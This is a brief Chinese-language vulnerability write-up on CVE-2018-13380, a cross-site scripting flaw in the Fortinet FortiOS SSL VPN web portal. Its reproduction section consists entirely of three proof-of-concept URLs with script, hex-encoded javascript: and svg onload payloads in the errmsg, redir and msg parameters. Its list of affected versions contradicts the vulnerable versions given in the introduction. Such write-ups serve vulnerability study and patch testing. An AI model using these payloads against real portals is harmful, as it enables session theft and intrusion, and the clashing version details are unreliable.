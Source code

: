 ```yaml
---
title: "（CVE-2018-13380）Fortinet FortiOS xss漏洞"
id: zhfly2946
---
```


# （CVE-2018-13380）Fortinet FortiOS xss漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

```
http://www.0-sec.org/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E 
```

```
http://www.0-sec.org/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29 
```

```
http://www.0-sec.org/message?title=x&msg=%26%23<svg/onload=alert(1)>; 
```